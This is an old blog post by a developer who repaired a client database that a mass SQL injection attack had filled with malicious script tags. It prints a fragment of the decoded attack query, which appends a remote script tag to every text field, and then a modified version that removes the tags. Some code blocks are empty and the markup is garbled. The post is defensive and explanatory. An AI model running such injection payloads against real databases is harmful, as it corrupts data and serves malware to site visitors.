 ```yaml
---
id: 48
title: 'Using SQL Injection attack code to repair database'
date: '2008-09-25T15:45:27-04:00'
author: Tea
layout: revision
guid: 'http://www.wirelust.com/2008/09/25/39-revision-9/'
permalink: '/?p=48'
---
```


Now that Google has started flagging sites that are linking to badware in their index I've been getting quite a few calls from people who have been flagged and need to get back on track.

These are often sites that were written a while back (not by myself) when developers didn't think as much about SQL injection as they do now. Sometimes the code was just poorly written by someone who didn't know better. However it happened, each site has its own challenge.

Fixing the security hole is generally straight forward — I usually just have to identify where the SQL isn't properly escaped and fix that code. The hard part I have had fixing these sites is fixing the database itself. Some clients have backups, and some I can fix with [SQL Log Rescue](http://www.red-gate.com/products/SQL_Log_Rescue/index.htm), but generally a lot of small clients simply don't have great control over their server and often don't have any backups.

I had one such of these clients this week where their database had hundreds and hundreds of tables, all with malware code injected into the data. I was initially going to write a script to clean all the data, but after looking at the malware attack, I was able to use their own code to fix the database.

In the server log files. I noticed this request was coming in for every script several times a day. Looks like it just wanders the internet hoping that that id=2 in the query string won't be escaped in the code.

```php
 
```

  
If the id isn't escaped, as it wasn't in this situation, a query like this will hit your SQL server:

```tsql
 
```

hmm. okay. so what is it executing as the value of @S?  
If you change the statement from EXEC(@S) to PRINT(@S) you get this:  
<span style="font-weight: bold; font-size: 14px; color: red">Warning:</span> **Do not run this on your server, it will mess up ALL of your data**

```tsql
'u'<span style="color: #FF0000;">'update ['</span>+@T+<span style="color: #FF0000;">'] set ['</span>+@C+<span style="color: #FF0000;">']='</span><span style="color: #FF0000;">'"></title><script src="http://www.wirelust.com/baddies-script.js"></script><!--'</span><span style="color: #FF0000;">'+['</span>+@C+<span style="color: #FF0000;">'] where '</span>+@C+<span style="color: #FF0000;">' not like '</span><span style="color: #FF0000;">'%"></title><script src="http://www.wirelust.com/baddies-script.js"></script><!--'</span><span style="color: #FF0000;">''</span>
```

I thought this code was pretty clever. It selects a cursor that contains every varchar and text field in every table on the database, then loops over the cursor and issues an update command to append their bad script to the end of the data in each field.

Luckily, it is in their best interest to leave your data in place and just place their code at the end – it increases the chance you won't know your site is infected.

Since all of the original data is still in the database, I was able to tweak their code a little bit to write a script to fix the data:

```tsql
'u'<span style="color: #FF0000;">'update ['</span>+@T+<span style="color: #FF0000;">'] set ['</span>+@C+<span style="color: #FF0000;">']=Replace(['</span>+@C+<span style="color: #FF0000;">'], '</span><span style="color: #FF0000;">'<script src=http://www.bnradw.com/b.js></script>'</span><span style="color: #FF0000;">', '</span><span style="color: #FF0000;">''</span><span style="color: #FF0000;">') where '</span>+@C+<span style="color: #FF0000;">' like '</span><span style="color: #FF0000;">'%<script src=http://www.bnradw.com/b.js></script>%'</span><span style="color: #FF0000;">''</span><span style="color: #008080;">-- exec(@SQL)</span>
 
```